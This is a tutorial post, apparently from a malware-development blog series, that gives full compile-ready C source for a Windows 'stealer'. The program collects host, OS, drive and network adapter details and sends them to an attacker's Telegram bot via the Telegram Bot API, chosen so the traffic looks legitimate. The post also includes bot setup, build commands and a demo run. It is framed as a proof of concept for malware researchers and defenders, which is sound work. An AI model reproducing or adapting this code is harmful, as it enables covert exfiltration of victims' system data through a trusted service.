


\newpage
\subsection{51. malware development trick. Stealing data via legit Telegram API. Simple C example.}

﷽

{width="80%"}      

In one of my last presentations at the conference [BSides Prishtina](https://bsidesprishtina.org/), the audience asked how attackers use legitimate services to manage viruses (C2) or steal data from the victim’s host.    

This post is just showing simple Proof of Concept of using Telegram Bot API for stealing information from Windows host.    

### practical example

Let's imagine that we want to create a simple stealer that will send us data about the victim's host. Something simple like systeminfo and adapter info:    

```cpp
char systemInfo[4096];

// get host name
CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
DWORD size = sizeof(hostName) / sizeof(hostName[0]);
GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

// get OS version
OSVERSIONINFO osVersion;
osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
GetVersionEx(&osVersion);

// get system information
SYSTEM_INFO sysInfo;
GetSystemInfo(&sysInfo);

// get logical drive information
DWORD drives = GetLogicalDrives();

// get IP address
IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
DWORD adapterInfoSize = sizeof(adapterInfo);
if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
return false;
}

snprintf(systemInfo, sizeof(systemInfo),
  "Host Name: %s\n"  // Use %s for CHAR
  "OS Version: %d.%d.%d\n"
  "Processor Architecture: %d\n"
  "Number of Processors: %d\n"
  "Logical Drives: %X\n",
  hostName,
  osVersion.dwMajorVersion, osVersion.dwMinorVersion, 
  osVersion.dwBuildNumber,
  sysInfo.wProcessorArchitecture,
  sysInfo.dwNumberOfProcessors,
  drives);

// Add IP address information
for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
  "Adapter Name: %s\n"
  "IP Address: %s\n"
  "Subnet Mask: %s\n"
  "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n",
  adapter->AdapterName,
  adapter->IpAddressList.IpAddress.String,
  adapter->IpAddressList.IpMask.String,
  adapter->Address[0], adapter->Address[1], adapter->Address[2],
  adapter->Address[3], adapter->Address[4], adapter->Address[5]);
}
```

But, if we send such information to some IP address it will seem strange and suspicious.    
What if instead you create a telegram bot and send information using it to us?

First of all, create simple telegram bot:    

{width="80%"}      

As you can see, we can use HTTP API for conversation with this bot.    

At the next step install telegram library for python:    

```bash
python3 -m pip install python-telegram-bot
```

{width="80%"}      

Then, I slightly modified a simple script: [echo bot](https://github.com/python-telegram-bot/python-telegram-bot/blob/master/examples/echobot.py) - `mybot.py`:    

```python
#!/usr/bin/env python
# pylint: disable=unused-argument
# This program is dedicated to the public domain under the CC0 license.

"""
Simple Bot to reply to Telegram messages.

First, a few handler functions are defined. Then, those functions are passed to
the Application and registered at their respective places.
Then, the bot is started and runs until we press Ctrl-C on the command line.

Usage:
Basic Echobot example, repeats messages.
Press Ctrl-C on the command line or send a signal to the process to stop the
bot.
"""

import logging

from telegram import ForceReply, Update
from telegram.ext import Application, CommandHandler, ContextTypes, 
MessageHandler, filters

# Enable logging
logging.basicConfig(
    format="%(asctime)s - %(name)s - %(levelname)s - %(message)s", level=logging.INFO
)
# set higher logging level for httpx to avoid all GET and POST requests being logged
logging.getLogger("httpx").setLevel(logging.WARNING)

logger = logging.getLogger(__name__)

# Define a few command handlers. These usually take the two arguments update and
# context.
async def start(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
    """Send a message when the command /start is issued."""
    user = update.effective_user
    await update.message.reply_html(
        rf"Hi {user.mention_html()}!",
        reply_markup=ForceReply(selective=True),
    )

async def help_command(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
    """Send a message when the command /help is issued."""
    await update.message.reply_text("Help!")

async def echo(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
    """Echo the user message."""
    print(update.message.chat_id)
    await update.message.reply_text(update.message.text)

def main() -> None:
    """Start the bot."""
    # Create the Application and pass it your bot's token.
    application = Application.builder().token("my token here").build()

    # on different commands - answer in Telegram
    application.add_handler(CommandHandler("start", start))
    application.add_handler(CommandHandler("help", help_command))

    # on non command i.e message - echo the message on Telegram
    application.add_handler(MessageHandler(filters.TEXT & ~filters.COMMAND, echo))

    # Run the bot until the user presses Ctrl-C
    application.run_polling(allowed_updates=Update.ALL_TYPES)


if __name__ == "__main__":
    main()
```

As you can see, I added printing chat ID logic:    

```python
async def echo(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
    """Echo the user message."""
    print(update.message.chat_id)
    await update.message.reply_text(update.message.text)
```

Let's check this simple logic:     

```bash
python3 mybot.py
```

{width="80%"}      

{width="80%"}      

{width="80%"}      

As you can see, `chat ID` successfully printed.    

For sending via Telegram Bot API I just created this simple function:     

```cpp
// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", 
  L"/bot---xxxxxxxxYOUR_TOKEN_HERExxxxxx---/sendMessage", NULL, 
  WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

  // set the headers
  if (!WinHttpSendRequest(hRequest, 
  L"Content-Type: application/x-www-form-urlencoded\r\n", -1, 
  requestBody, strlen(requestBody), strlen(requestBody), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;
}
```

So the full source code is looks like this - `hack.c`:    

```cpp
/*
 * hack.c
 * sending victim's systeminfo via 
 * legit URL: Telegram Bot API
 * author @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/bot----TOKEN----/sendMessage", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

  // set the headers
  if (!WinHttpSendRequest(hRequest, L"Content-Type: application/x-www-form-urlencoded\r\n", -1, requestBody, strlen(requestBody), strlen(requestBody), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;
}

// get systeminfo and send to chat via tgbot logic
int main(int argc, char* argv[]) {

  // test tgbot sending message
  char test[1024];
  const char* message = "meow-meow";
  snprintf(test, sizeof(test), "{\"text\":\"%s\"}", message);
  sendToTgBot(test);

  char systemInfo[4096];

  // Get host name
  CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
  DWORD size = sizeof(hostName) / sizeof(hostName[0]);
  GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

  // Get OS version
  OSVERSIONINFO osVersion;
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);

  // Get system information
  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);

  // Get logical drive information
  DWORD drives = GetLogicalDrives();

  // Get IP address
  IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
  DWORD adapterInfoSize = sizeof(adapterInfo);
  if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
    printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
    return false;
  }

  snprintf(systemInfo, sizeof(systemInfo),
    "Host Name: %s\n"  // Use %s for CHAR
    "OS Version: %d.%d.%d\n"
    "Processor Architecture: %d\n"
    "Number of Processors: %d\n"
    "Logical Drives: %X\n",
    hostName,
    osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
    sysInfo.wProcessorArchitecture,
    sysInfo.dwNumberOfProcessors,
    drives);

  // Add IP address information
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
    snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
    "Adapter Name: %s\n"
    "IP Address: %s\n"
    "Subnet Mask: %s\n"
    "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n\n",
    adapter->AdapterName,
    adapter->IpAddressList.IpAddress.String,
    adapter->IpAddressList.IpMask.String,
    adapter->Address[0], adapter->Address[1], adapter->Address[2],
    adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }
  
  char info[8196];
  snprintf(info, sizeof(info), "{\"text\":\"%s\"}", systemInfo);
  int result = sendToTgBot(info);

  if (result == 0) {
    printf("ok =^..^=\n");
  } else {
    printf("nok <3()~\n");
  }

  return 0;
}
```

### demo

Let's check everything in action.     

Compile our "stealer" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -liphlpapi -lwinhttp
```

{width="80%"}      

And run it on my Windows 11 VM:    

```powershell
.\hack.exe
```

{width="80%"}      

If we check traffic via Wireshark we got IP address `149.154.167.220`:    

```bash
whois 149.154.167.220
```

{width="80%"}      

As you can see, everything is worked perfectly =^..^=!     

Scanning via [WebSec Malware Scanner](https://websec.nl/en/scanner):     

{width="80%"}      

[https://websec.nl/en/scanner/result/45dfcb29-3817-4199-a6ef-da00675c6c32](https://websec.nl/en/scanner/result/45dfcb29-3817-4199-a6ef-da00675c6c32)     

Interesting result.     

Of course, this is not such a complex stealer, because it's just "dirty PoC" and in real attacks stealers with more sophisticated logic are used, but I think I was able to show the essence and risks.   

I hope this post with practical example is useful for malware researchers, red teamers, spreads awareness to the blue teamers of this interesting technique.    

[Telegram Bot API](https://core.telegram.org/bots/api)    
[https://github.com/python-telegram-bot/python-telegram-bot](https://github.com/python-telegram-bot/python-telegram-bot)     
[WebSec Malware Scanner](https://websec.nl/en/scanner)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-06-16-malware-trick-40)    
